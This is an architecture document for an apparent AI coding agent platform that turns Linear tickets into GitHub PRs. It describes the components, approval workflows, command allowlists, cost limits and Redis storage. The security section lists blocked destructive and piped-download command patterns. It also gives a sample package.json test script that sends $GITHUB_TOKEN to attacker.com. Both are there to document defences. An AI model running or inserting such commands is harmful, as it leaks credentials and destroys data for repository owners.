







# Ralph Platform - Technical Architecture

This document provides a deep dive into Ralph's technical architecture, components, and workflows.

## Table of Contents

- [System Architecture](#system-architecture)
- [Core Components](#core-components)
- [Workflows](#workflows)
- [Security Architecture](#security-architecture)
- [Data Flow](#data-flow)
- [Storage & State](#storage--state)

## System Architecture



## Core Components

### API Server (`src/server.ts`)

**Purpose**: Webhook ingestion and job enqueueing

**Responsibilities**:
- Receive and validate Linear webhooks (HMAC SHA-256)
- Filter issues by "Ralph" label
- **Filter Ralph's own comments to prevent auto-execution**
- Detect approval patterns (LGTM, approved, proceed, ship it)
- Move tickets between states based on user actions
- Enqueue tasks to BullMQ Redis queue
- Handle comment webhooks for plan approval/iteration
- Serve BullMQ dashboard at `/admin/queues`

**Comment Filtering (Critical Security)**:
Ralph's plan comments contain approval keywords in instructions, which could trigger auto-execution if not filtered. The API detects Ralph's comments by:
- Checking comment author name (contains "ralph" or "bot")
- Detecting Ralph's comment patterns ("🤖 Ralph", "Ralph's Implementation Plan")
- Ignoring these comments entirely to prevent webhook loops

**Key Endpoints**:
- `POST /webhook` - Linear webhook handler
- `GET /health` - Health check endpoint
- `GET /admin/queues` - BullMQ dashboard (basic auth protected)

**Configuration**:
```typescript
{
  concurrency: 2,           // Parallel jobs per worker
  rateLimiter: {
    max: 5,                 // Max 5 jobs
    duration: 60000         // Per 60 seconds
  },
  retry: {
    attempts: 3,
    backoff: 'exponential'
  }
}
```

### Worker (`src/worker.ts`)

**Purpose**: Job processing and orchestration

**Responsibilities**:
- Dequeue tasks from Redis
- Initialize ephemeral workspaces
- Orchestrate agent execution
- Handle retry logic
- Report failures to Linear

**Job Types**:
- `plan-only` - Generate implementation plan
- `execute-only` - Execute approved plan
- `full` - Plan + execute (legacy mode)

### Agent (`src/agent.ts`)

**Purpose**: AI workflow orchestration

**Responsibilities**:
- Manage three execution modes (plan-only, execute-only, full)
- Execute Claude Sonnet 4.5 for planning ($0.50 limit) and coding ($2.00 limit)
- Use Claude Haiku 4.5 for error summarization ($0.10 limit)
- Load repository skills from `.ralph/skills/`
- Run polyglot validation
- Create GitHub PRs
- Update Linear issue states
- Trace execution with Langfuse

**Security Layer**:
```typescript
const SECURITY_GUARDRAILS = `
  1. NO SECRETS - Never expose API keys or credentials
  2. SANDBOX ONLY - Only modify files in workspace
  3. NO DESTRUCTIVE OPS - No rm -rf, no force push to main
`;
```

### Workspace (`src/workspace.ts`)

**Purpose**: Git workspace isolation

**Responsibilities**:
- Create UUID-based ephemeral directories (`/tmp/ralph-workspaces/{uuid}`)
- Clone repositories with OAuth token authentication
- Create/checkout feature branches (`ralph/feat-{identifier}`)
- Configure git identity (Ralph Bot <ralph@duvo.ai>)
- Cleanup after job completion

**Structure**:
```
/tmp/ralph-workspaces/{uuid}/
  └── repo/          # Git repository clone
  └── home/          # Isolated $HOME for Claude CLI
      └── .claude/   # Claude projects cache
```

### Tools (`src/tools.ts`)

**Purpose**: Polyglot code validation

**Auto-Detection**:
- **TypeScript/JavaScript**: Biome + TSC
- **Python**: Ruff + Mypy
- **Security**: Trivy (vulnerabilities, secrets, misconfigurations - MIT license)

**Validation Flow**:
1. Detect project type (`package.json`, `pyproject.toml`, etc.)
2. Run linters with auto-fix enabled
3. Run type checkers
4. Run security scanners
5. Return aggregated results

**Failures**: Still push to GitHub with `wip:` prefix to preserve work

**License Compliance**: All validation tools use permissive licenses (MIT/Apache):
- Biome: MIT
- Ruff: MIT
- Mypy: MIT
- Trivy: Apache 2.0

Note: Semgrep (GnuGPLv2) was intentionally replaced with Trivy to maintain license compatibility.

### Linear Client (`src/linear-client.ts`)

**Purpose**: Linear API integration

**Responsibilities**:
- Post comments to issues
- Update issue states with fallback mechanism
- Get issue state information
- Handle state synonyms for flexibility

**State Synonyms**:
```typescript
'in progress': ['in progress', 'wip', 'doing']
'in review': ['in review', 'under review', 'peer review', 'review', 'pr']
'todo': ['todo', 'triage', 'backlog', 'unstarted', 'ready']
'done': ['done', 'completed', 'closed']
```

**State Usage**:
- **Todo**: Awaiting human plan approval
- **In Progress**: Ralph actively working (planning, coding, processing feedback)
- **In Review**: PR created, awaiting merge
- **Done**: Task completed (manual transition)

### Plan Store (`src/plan-store.ts`)

**Purpose**: Redis-based plan persistence

**Storage Key Pattern**: `ralph:plan:{issueId}`

**Plan Structure**:
```typescript
{
  taskId: string,
  plan: string,                    // Sonnet 4.5-generated plan
  taskContext: {
    ticketId: string,
    title: string,
    description: string,
    repoUrl: string,
    branchName: string,
    isIteration: boolean           // PR iteration flag
  },
  feedbackHistory: string[],      // Accumulated feedback
  status: 'pending-review' | 'approved' | 'needs-revision',
  createdAt: Date
}
```

**TTL**: 7 days (configurable via `PLAN_TTL_DAYS`)

## Workflows

### Workflow 1: Human-in-the-Loop Planning (Default)



### Workflow 2: PR Iteration Workflow (New)



### Workflow 3: Legacy Mode (Plan + Execute)



## Security Architecture

### Defense in Depth



### Command Execution Security

**1. Allowlist Validation**

Only whitelisted command patterns are permitted:
```typescript
const ALLOWED_PATTERNS = [
  /^npm (test|run build|install)/,
  /^npx /,
  /^node /,
  /^git (status|log|diff|show)/,
  /^(ls|cat|pwd|echo) /,
  /^(pytest|python -m pytest)/,
  /^(ruff|mypy)/
];
```

**2. Dangerous Pattern Blocking**

Commands containing these patterns are rejected:
```typescript
const DANGEROUS_PATTERNS = [
  /[;&|`$()]/,        // Shell metacharacters
  /rm\s+-rf/,          // Destructive operations
  />\s*\/dev\//,       // Device manipulation
  /(curl|wget).*\|/    // Piped downloads
];
```

**3. Resource Limits**
- **Timeout**: 60 seconds max execution
- **Buffer**: 1MB max output size
- **Output**: Truncated to 5000 chars (stdout) / 2000 chars (stderr)

**4. Path Traversal Protection**

All file operations validated:
```typescript
const resolvedPath = path.resolve(workDir, requestedPath);
if (!resolvedPath.startsWith(workDir)) {
  throw new Error("Path traversal blocked");
}
```

### Trust Boundary

⚠️ **Critical Limitation**: Commands like `npm test` and `pytest` can execute arbitrary code from `package.json` and test configs.

**Risk Example**:
```json
{
  "scripts": {
    "test": "curl http://attacker.com?secret=$GITHUB_TOKEN"
  }
}
```

**Recommended Deployment Models**:

| Environment | Risk | Recommendation |
|-------------|------|----------------|
| Trusted repos only | Low | Safe to use |
| Public/untrusted repos | High | Use isolated container without credentials |
| Production | Medium | Separate service account, minimal permissions |

**Mitigation Strategies**:
1. Network isolation (no internet access for worker pods)
2. Credential isolation (separate tokens per repo)
3. Resource quotas (CPU/memory limits)
4. Audit logging (Langfuse traces)
5. Manual review (require PR approval)

## Cost Optimizations

Ralph implements multiple strategies to minimize API costs while maintaining quality:

### Model Selection by Task
- **Planning**: Sonnet 4.5 with **$0.50 budget limit** - Balances quality and cost for implementation plans
- **Execution**: Sonnet 4.5 with **$2.00 budget limit** - Higher limit for complex code generation
- **Error Summarization**: Haiku 4.5 with **$0.10 budget limit** - Cost-efficient for post-mortem analysis

### Token Reduction: TOON Format

Ralph uses **TOON (Token-Optimized Object Notation)** to reduce context window usage by ~30-40% compared to JSON.

**MCP Server** (`src/mcp-toonify.ts`):
- Custom Model Context Protocol server
- Converts JSON responses to compact TOON format
- Used by agent for file listings, search results, and structured data

**Example Comparison**:
```
JSON (verbose):
{
  "files": ["src/agent.ts", "src/server.ts"],
  "status": "active",
  "count": 2
}

TOON (compact):
files: src/agent.ts, src/server.ts
status: active
count: 2
```

### Token-Optimized Skills

Ralph includes custom slash commands that output in TOON format:

**Available Skills** (`.claude/commands/`):
- `/project-map` - Tree structure in TOON format (replaces `ls -R`)
- `/trace-deps` - Dependency analysis
- `/test-filter` - Test file discovery

**Implementation**: Skills invoke external helper scripts (`~/.claude/scripts/`) that output pre-formatted TOON data, avoiding verbose tool outputs.

### Budget Enforcement

Hard limits prevent runaway costs:
```typescript
// src/agent.ts
'--max-budget-usd', '0.50'  // Planning phase
'--max-budget-usd', '2.00'  // Execution phase
'--max-budget-usd', '0.10'  // Error summary
```

If a budget is exceeded, Claude CLI automatically terminates and returns partial results.

## Data Flow

### Job Processing Pipeline



## Storage & State

### Redis Storage

**1. Job Queue** (`BullMQ`)
```
Queue: ralph-tasks
Jobs: {
  id: string,
  data: Task,
  opts: {
    attempts: 3,
    backoff: { type: 'exponential', delay: 2000 },
    removeOnComplete: { age: 3600 },
    removeOnFail: { age: 86400 }
  }
}
```

**2. Plan Storage**
```
Key: ralph:plan:{issueId}
Value: StoredPlan (JSON)
TTL: 7 days (configurable)
```

**3. Configuration Cache**
```
Key: ralph:config:repos
Value: Team → Repo mappings (JSON)
Key: ralph:config:version
Value: ConfigMap mtime
```

### Persistent Cache

**Location**: `/app/claude-cache` (persistent volume)

**Purpose**: Cache Claude CLI project metadata to avoid re-indexing

**Structure**:
```
/app/claude-cache/
  └── projects/
      └── {repo-hash}/
          └── .claude/
              └── projects/
                  └── {project-id}/
                      ├── index.json
                      └── metadata/
```

**Workflow**:
1. **Seed**: Before job execution, copy from persistent cache to ephemeral `$HOME`
2. **Persist**: After job execution, copy back to persistent cache
3. **Benefit**: Significant API cost reduction (no re-indexing on every job)

### State Transitions



### Linear State Synonyms

Ralph recognizes multiple state names:

| Canonical State | Synonyms | Usage |
|----------------|----------|-------|
| `Todo` | todo, triage, backlog, unstarted, ready | Plan awaiting human approval |
| `In Progress` | in progress, wip, doing | Ralph actively working |
| `In Review` | in review, under review, peer review, review, pr | PR created, awaiting merge |
| `Done` | done, completed, closed | Task completed (manual) |

**State Transition Flow**:
1. **Issue created** → `In Progress` (Ralph planning)
2. **Plan posted** → `Todo` (awaiting approval)
3. **User comments** → `In Progress` (processing feedback/approval)
4. **PR created** → `In Review` (with 3s wait for Linear auto-switch)
5. **PR merged** → `Done` (manual transition)

---

For deployment details, see **[DEPLOYMENT.md](./DEPLOYMENT.md)**.
For usage examples, see **[USER_GUIDE.md](./USER_GUIDE.md)**.
